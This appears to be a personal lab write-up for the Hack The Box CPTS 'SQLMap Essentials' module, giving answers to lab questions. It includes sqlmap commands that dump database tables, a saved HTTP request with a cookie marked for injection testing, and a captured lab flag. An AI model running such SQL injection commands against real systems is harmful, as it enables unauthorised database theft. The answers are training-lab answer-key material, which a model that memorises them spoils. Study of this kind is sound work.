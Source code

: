 ```yaml
---
title: CPTS labs - 17 SQLMap Essentials
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 17 SQLMap Essentials

## [SQLMap Essentials](https://academy.hackthebox.com/module/details/58)

### Building Attacks

**What's the fastest SQLi type?**

Results: UNION query-based


**What's the contents of table flag2? (Case #2)**

```bash
sqlmap -r r  -T flag2 --dump --batch
```

Results: HTB{700_much_c0n6r475_0n_p057_r3qu357}



**What's the contents of table flag3? (Case #3)**

We save the following request:

```bash
GET /case3.php HTTP/1.1
Host: 94.237.54.116:55862
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.54.116:55862/case3.php
Cookie: id=*
Upgrade-Insecure-Requests: 1

```

We have modified the Cookie to `Cookie: id=*` to indicate we want to test this value:

```bash
sqlmap -r r  -T flag3 --dump --batch
```

